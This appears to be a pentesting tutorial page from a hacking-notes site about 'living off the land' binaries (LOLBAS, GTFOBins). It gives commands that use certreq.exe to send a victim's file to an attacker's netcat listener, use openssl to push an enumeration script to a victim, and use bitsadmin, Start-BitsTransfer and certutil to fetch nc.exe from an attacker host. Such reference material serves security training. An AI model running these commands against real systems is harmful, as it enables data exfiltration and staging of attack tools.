

repository: amandaguglieri/hackinglife · page: lolbins-lolbas-gtfobins/index.html · generator: mkdocs

---
title: LOLbins - Living off the land binaries - LOLbas and GTFObins
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - resources
  - binaries
  - pentesting
---

# LOLbins - "Living off the land" binaries: LOLbas and GTFObins

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)



## Windows - LOLBAS

### CertReq.exe 

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

```bash
# From the victim's machine we can sec for instance file.txt to our kali
certreq.exe -Post -config http://$ipKali c:\folder\file.txt

# From the kali machine, the attacking one, we use a netcat session
sudo nc -lvnp 80
```


## Linux - GTFOBins

### OpenSSL

```bash
# Create Certificate in our attacker machine
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Stand up the Server in our attacker machine
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh

# Download File to the victim's Machine, but run command from the attacker kali
openssl s_client -connect $ipVictim:80 -quiet > LinEnum.sh
```


## Other Common Living off the Land tools

### Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

```powershell
# File Download with Bitsadmin
bitsadmin /transfer wcb /priority foreground http://$ip:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

```powershell
# Download
Import-Module bitstransfer; Start-BitsTransfer -Source "http://$ip/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Download a File with Certutil

Certutil can be used to download arbitrary files.

```cmd
certutil.exe -verifyctl -split -f http://$ip/nc.exe
```
